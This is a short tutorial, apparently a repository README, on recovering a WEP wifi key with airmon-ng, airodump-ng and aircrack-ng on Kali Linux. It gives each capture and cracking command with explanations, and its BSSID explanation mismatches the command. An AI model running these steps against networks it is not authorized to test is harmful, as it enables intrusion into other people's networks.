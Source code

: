 Boot / Install Kali

If on virtualbox, you will need a USB wifi stick. Once added, click the usb icon in the bottom right and add the device to your guest OS
![](http://teachthe.net/topclipbox/2016-05-03_22-29-253QLRLY.png)

```shell
airmon-ng
```

You should see something like this
![](http://teachthe.net/topclipbox/2016-05-03_22-31-4102HNZ4.png)

From the above, get your Interface name and use it below in place of 'wlan0'

```
airmon-ng start wlan0
```

This should tell us monitor mode is enabled for this interface.

```
airodump-ng wlan0
```

This will show us all wifi points detected by the card, along with their encryption type. It should look like this:

![](http://teachthe.net/topclipbox/2016-05-03_22-34-28SOJ6M4.png)

Once you see your network, hit control+c to kill it.

(Note, this guide only shows how to break into your own WEP protected network)

```
airodump-ng -c 6 --bssid E8:DE:27:BD:CA:3C -w ~/ wlan0
```

For this command, we need to make a few modifications:

1) "-c 6" is specifying to use channel 6. Replace the "6" with the number from the CH column above for your network.

2) "--bssid 04:1E:64:98:96:AB" is specifying the unique ID of the actual wifi network you are targeting. Replace the "04:1E:64:98:96:AB" with the value from the BSSID column above for your network.

3) As always, replace wlan0 with your Interface name.

Now once this command is running, it will start listening to traffic on the network, gathering the info it needs to break in. You will observe over time the #Data column grows. Once it hits 20000, you're in a good spot to attempt the attack. It should look like this:

![](http://teachthe.net/topclipbox/2016-05-03_22-57-30BPM31I.png)

While leaving it running, open another terminal and run this command:

```
aircrack-ng -b E8:DE:27:BD:CA:3C ~/01.cap
```
For this command, we need to make a few modifications:

1) Replace "E8:DE:27:BD:CA:3C" with the BSSID from the previous command of the network you are targeting.

2) "~/01.cap" is referring to the file storing the results of the dump from the previous command. In the previous command, we passed in a parameter "-w ~/" saying write the logs to our home directory. Go to your home directory, and find the .cap file located there, and replace the "01.cap" in this command with the name of that file.

If you get a "failed" message. Just hit control+c and wait for more data to be collected, then try again.

When you achieve success, you should see something like this!

![](http://teachthe.net/topclipbox/2016-05-03_22-58-17BTHZA6.png)
